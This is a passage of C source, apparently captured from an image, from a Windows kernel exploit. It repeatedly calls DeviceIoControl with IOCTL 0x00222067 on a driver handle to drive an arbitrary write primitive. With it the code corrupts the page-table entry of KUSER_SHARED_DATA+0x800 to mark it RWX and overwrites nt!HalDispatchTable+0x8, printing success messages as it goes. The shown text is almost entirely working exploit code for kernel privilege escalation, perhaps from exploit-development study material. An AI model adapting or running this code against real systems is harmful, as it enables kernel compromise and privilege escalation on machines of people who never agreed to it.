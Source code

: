 ```c
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Perform the arbitrary write
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &mainObject,
        sizeof(mainObject),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print update
    printf("[+] Successfully corrupted the PTE of KUSER_SHARED_DATA+0x800! This region should now be marked as RWX!\n");

    // Leverage the arbitrary write primitive to overwrite nt!HalDispatchTable+0x8

    // Reset kusersharedData
    kusersharedData = 0xfffff78000000800;

    // Setting the Name member of the corrupted object to specify where we would like to write
    helperobjectArray[index].Name = &halTemp;

    // Specify where we would like to write (the address of KUSER_SHARED_DATA+0x800)
    mainObject.Name = &kusersharedData;

    // Set the Name member of the "corrupted" object managed by the global array to nt!HalDispatchTable+0x8
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Perform the arbitrary write
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &mainObject,
        sizeof(mainObject),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Print update
```
